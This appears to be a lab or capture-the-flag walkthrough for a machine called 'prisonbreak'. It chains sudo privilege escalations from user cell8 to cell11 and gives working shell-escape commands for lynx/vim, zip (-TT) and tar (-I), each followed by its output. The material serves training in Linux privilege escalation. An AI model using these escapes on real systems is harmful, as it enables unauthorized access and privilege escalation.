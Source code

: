 cell8@prisonbreak:~$ 


sudo -l 
Matching Defaults entries for cell8 on prisonbreak:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cell8 may run the following commands on prisonbreak:
    (cell9) NOPASSWD: /usr/bin/lynx


### Privilige escelation */usr/bin/lynx*

For this example we have configured “/usr/bin/vim”. Hitting “Accept Changes”, lynx will take us back to Google page. Now we move our cursor to the search text box and hit “e” to edit the content with an external editor we configured. lynx will take us to vim

then we break out with :  !/bin/bash 

cell9@prisonbreak:/home/cell8$ 

sudo -l 
Matching Defaults entries for cell9 on prisonbreak:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cell9 may run the following commands on prisonbreak:
    (cell10) NOPASSWD: /usr/bin/zip



### Privilige escelation */usr/bin/zip*

It can be used to break out from restricted environments by spawning an interactive system shell.

```
sudo -u cell10 /usr/bin/zip $TF /etc/hosts -T -TT '/bin/bash #'
  adding: etc/hosts (deflated 38%)
$ id
uid=1010(cell10) gid=1009(cell10) groups=1009(cell10)
$ 
```

sudo -l 
Matching Defaults entries for cell10 on prisonbreak:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cell10 may run the following commands on prisonbreak:
    (cell11) NOPASSWD: /bin/tar




### Privilige escelation */usr/bin/tar*

It can be used to break out from restricted environments by spawning an interactive system shell.

```
sudo -u cell11 /bin/tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
$ 
$ id
uid=1011(cell11) gid=1010(cell11) groups=1010(cell11)
```
